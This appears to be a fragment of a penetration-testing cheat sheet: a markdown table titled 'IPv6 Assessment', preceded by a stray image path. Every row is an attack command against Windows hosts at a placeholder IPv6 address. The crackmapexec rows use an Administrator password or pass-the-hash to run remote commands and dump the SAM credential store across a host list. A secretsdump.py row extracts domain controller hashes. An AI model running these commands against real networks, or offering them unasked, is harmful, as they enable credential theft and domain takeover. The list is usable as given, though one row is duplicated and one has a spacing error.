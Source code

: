### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
